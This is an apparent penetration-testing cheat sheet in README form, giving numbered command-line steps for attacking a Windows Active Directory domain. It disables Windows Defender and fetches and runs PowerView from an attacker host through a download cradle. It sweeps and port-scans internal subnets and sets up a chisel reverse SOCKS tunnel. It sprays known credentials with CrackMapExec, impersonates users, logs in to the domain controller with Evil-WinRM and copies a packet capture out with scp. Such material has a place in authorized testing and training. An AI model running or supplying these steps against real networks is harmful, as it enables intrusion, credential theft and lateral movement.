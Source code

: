 # Active Directory Enumeration

Enumerate and exploit AD users and groups.

1. Enumerate all **local accounts**
   
        net user

2. Enumerate all users in the **entire domain**

        net user /domain

3. Query information about **individual users**

        net user USERNAME /domain
    
    Identify a user who is member of the **Domain Admins** group

4. Enumerate all groups in the domain

        net group /domain

    Analyse output and identify custom groups, if any.

5. Create an **LDAP connection string**

        LDAP://DC=|SERVER NAME|[,DC=|EXTENSION|]

6. **Disable Windows Defender** by running following PowerShell command as a local administrator

        Set-MpPreference -DisableRealtimeMonitoring $true

7. **Extract** files from a ZIP folder using PowerShell
  
        Expand-Archive -LiteralPath ./filename.zip -DestinationPath ./outputFolderName

8. Check **file permissions**

        icacls filename.txt

9. **Grant** a user **full control** over a folder and all its subfolders

        icacls "C:\folder\path" /grant Username:(OI)(CI)F /T

10. **Check** the current user's **integrity level**

        whoami /groups

    Is it **low**, **medium**, **high**, **system**, or **installer**?

11. **Change** the integrity level of a file

        icacls winPEASx64.exe /setintegritylevel Low
    ---
        > icacls winPEASx64.exe
        winPEASx64.exe NT AUTHORITY\SYSTEM:(I)(F)
                BUILTIN\Administrators:(I)(F)
                COMPATIBILITY\Administrator:(I)(F)
                Mandatory Label\Low Mandatory Level:(NW)

12. Check the current user's **permissions**

        whoami /priv

13. List the "Security Update" **patches**

        Get-Hotfix -description "Security update"

14. Get a list of running **non-standard services** that **start automatically**

        wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows"

15. Enumerate the **internal network** to find live hosts

        for /L %i in (1,1,255) do @ping -n 1 -w 200 10.10.10.%i > nul && echo 10.10.10.%i is up.

16. Use [CrackMapExecWin](../crackmapexecwin/README.md) to check which boxes could be accessed using any of the known credentials

17. Use [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) to find users on the network with enhanced privileges

        powershell.exe -executionpolicy bypass "iex(New-Object System.Net.WebClient).DownloadString('http://10.10.10.9:8000/PowerView.ps1'); Get-NetComputer"

    ---

        Get-DomainComputer | Select name
        Find-DomainShare
        Find-DomainShare -CheckShareAccess

    ---

    List any interesting share, if found, to view its contents

        ls \\citrix\citrix$\

    Check if a domain user has SPN associated with them

        Get-DomainUser
        Get-DomainUser <account_name>

    Request a Ticket Granting Service Ticket (TGS-REQ) for an identified service. The returned TGS (TGS-REP) would be encrypted using the NTLM password hash of the account in whose context the service was running.

18. [Refer steps mentioned here](../attacking_kerberos/README.md) to obtain and crack the hash for a user who has an SPN associated with them
19. Check current user's permissions

        whoami /priv

20. If `SeImpersonatePrivilege` feature is enabled for current user, and, if hash (from step #18, above) was cracked successfully, then **impersonate** as a different user 

    * Using [Covenant](https://github.com/cobbr/Covenant)

            MakeToken <username> <domain.local> <password> LOGON32_LOGON_INTERACTIVE

    * Using [runas](https://www.dionach.com/blog/discovering-sensitive-information-in-file-shares/)

            runas /netonly /user:domain.local\username "PowerShell.exe -exec bypass"

21. Do a listing of accessible **shares**, as the impersonated user

        ls \\shareName\sharePath$\

22. Enumerate the **internal subnet**

        $ ipconfig
        $ for /L %i in (1,1,255) do @ping -n 1 -w 200 172.10.10.%i > nul && echo 172.10.10.%i is up.

23. Use [Invoke-PortScan.ps1](https://raw.githubusercontent.com/samratashok/nishang/master/Scan/Invoke-PortScan.ps1) PowerShell script for **port-scanning**

        Invoke-Portscan -StartAddress 172.10.10.200 -EndAddress 172.10.10.4 -ScanPort -Port 21,22,53,80,443,8080

24. Deploy a **SOCKS proxy** and enable **reverse tunneling** using [chisel](https://github.com/jpillora/chisel/releases) to access internal applications (if any)

    **Linux (Server):**

        ./chisel_1.7.2_linux_amd64 server --reverse

    **Windows (Client):**

        ./chisel_1.7.2_windows_amd64 client 10.10.10.9:8080 R:0.0.0.0:1080:socks

25. **Route traffic** through the SOCKS proxy by adding following line to the end of `/etc/proxychains.conf` file (and, commenting out any pre-existing entries)

        socks5  127.0.0.1 1080

26. Configure browser to use SOCKS proxy on port 1080 (using FoxyProxy browser plugin), and browse to an **internal web server** through the proxy

        proxychains curl http://172.10.10.4

27. Use **Proxychains** to connect and run commands on the remote machine

        $ proxychains ssh nsroot@172.10.10.4 -i ./id_rsa  -v 
        > shell "/bin/sh"
        #
        # tcpdump -w capture.cap -v -s0

    ---

        proxychains scp -i id_rsa root@172.10.10.4:/tmp/capture.cap .

28. Obtain a list of accounts using [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)

        Get-DomainUser | select samaccountname

29. Download [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec/releases) binary for Linux
30. Check which of the service accounts in an internal network are accessible through known crcedentials

        proxychains ./cme smb 172.10.10.4 -d domain.local -u ./users.txt -p 'Password123' --continue-on-success

31. If known credentials allow access to a service account, explore the account further

        net user <account_name> /domain

32. If remote management is enabled, login to the domain controller remotely using [Evil-WinRM](../../privilege_escalation/winrm_5985/README.md) alongwith proxychanins
        
        proxychains evil-winrm -i <IP> -u USERNAME -p PASSWORD

33. The `NTDS.dit` file is the database for Active Directory that is present on all domain controllers.It stores hashes for all domain users as well as information about other objects in the domain.

## References

* https://www.codemag.com/Article/1312041/Using-Active-Directory-in-.NET
* https://www.wintips.org/how-to-disable-or-remove-windows-defender-antivirus-in-server-2016/
* https://www.robvanderwoude.com/ntadmincommands.php
* https://book.hacktricks.xyz/windows/windows-local-privilege-escalation/integrity-levels
* https://stackoverflow.com/questions/2928738/how-to-grant-permission-to-users-for-a-directory-using-command-line-in-windows
* https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1
* https://morph3sec.com/Writeups/HackTheBox/HackTheBox-Endgame-Xen-Writeup/
* https://www.picussecurity.com/blog/picus-10-critical-mitre-attck-techniques-t1003-credential-dumping
* https://info.varonis.com/hubfs/docs/whitepapers/en/ebook_pen_testing_031317.pdf?hsLang=en
* https://github.com/cobbr/Covenant
* https://powersploit.readthedocs.io/en/latest/
* https://powersploit.readthedocs.io/en/latest/Recon/Find-DomainShare/
* https://www.dionach.com/blog/discovering-sensitive-information-in-file-shares/
* https://blog.emacsos.com/use-socks5-proxy-in-curl.html
* https://medium.com/@vegardw/reverse-socks-proxy-using-chisel-the-easy-way-48a78df92f29
* https://chickenpwny.github.io/windows/chisel/
* https://netsec.ws/?p=278
